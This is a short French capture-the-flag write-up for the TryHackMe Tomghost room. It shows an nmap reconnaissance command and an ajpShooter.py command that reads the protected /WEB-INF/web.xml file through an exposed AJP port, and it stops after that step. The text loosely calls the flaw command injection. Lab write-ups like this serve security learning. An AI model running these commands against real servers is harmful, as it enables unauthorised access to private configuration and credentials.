 <h1>Tomghost ~ Writeup</h1>
<h2>Reconnaissance</h2>
<p>On débute le challenge par un scan Nmap</p>
<code>nmap -sC -sV -p- -Pn <TARGET_IP></code>
<img src="https://github.com/H4shVulca1n/Cyber/blob/main/Challenge/TryHackMe/tomghost/writeup_files/nmap.png">
<p>Nous identifions les services suivants :</p>
<ul>
	<li>OpenSSH (22)</li>
	<li>? (53)</li>
	<li>Ajp13 (8009)</li>
	<li>Apache Tomcat (8080)</li>
</ul>
<p>Il s'avère que le service Ajp13 soit vulnérable aux injections de commandes</p>
<h2>Exploitation</h2>
<p>Grâce à l'exploit déniché plus tôt, nous allons pouvoir lir certaines ressources normalement innaccessible par le commun des mortels...notamment un fichier de configuration XML du service Ajp13</p>
<code>python3 ajpShooter.py http://<TARGET_IP>:<HTTP_PORT> <AJP_PORT> /WEB-INF/web.xml read</code>
<img src="https://github.com/H4shVulca1n/Cyber/blob/main/Challenge/TryHackMe/tomghost/writeup_files/ajpShooter.png">
